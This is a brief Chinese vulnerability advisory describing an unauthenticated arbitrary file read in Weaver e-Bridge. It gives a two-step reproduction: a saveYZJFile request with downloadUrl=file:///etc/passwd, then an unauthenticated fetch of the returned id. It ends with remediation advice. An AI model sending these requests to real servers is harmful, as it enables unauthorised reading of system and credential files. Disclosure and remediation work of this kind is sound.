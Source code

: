 # 泛微OA云桥未授权任意文件读取

> 泛微云桥（e-Bridge）是上海泛微公司研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。
> 泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响范围
2018~ 2019 多个版本

## 漏洞复现

1. 直接发送请求到下面的目录【可以自定义downloadUrl 后面的参数内容】，在返回体中包含 `id` 字段
```http request
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```
![](images/064b9834.png)

2. 访问下面的url ，其中url 最后面的路径就是上面返回的 `id` 值
   /file/fileNoLogin/id
![](images/6c4e1cf0.png)

## 修复建议
* 关闭对于文件  `/file/fileNoLogin` 的路由
* 限制 `downloadUrl` 参数的取值范围

